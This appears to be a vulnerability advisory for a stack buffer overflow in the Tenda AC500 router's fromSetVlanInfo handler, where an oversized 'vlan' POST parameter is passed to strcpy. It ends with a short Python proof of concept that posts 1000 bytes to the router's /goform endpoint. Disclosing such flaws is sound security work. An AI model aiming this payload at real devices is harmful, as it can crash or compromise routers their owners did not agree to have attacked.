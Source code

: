 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `fromSetVlanInfo` function. The `v13` variable receives the `vlan` parameter from a POST request and is later assigned to the `v7` variable, which is fixed at 256 bytes. However, since the user can control the input of `vlan`, the statement `strcpy(v7, v13);` can cause a buffer overflow. The user-provided  `vlan` can exceed the capacity of the `v7` array, triggering this security vulnerability.

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410160719373.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410160613776.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/forSetVlanInfo"
payload = b"a"*1000

data = {"action":"add","vlan": payload}
response = requests.post(url, data=data)
print(response.text)
.
```

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410100105349.png)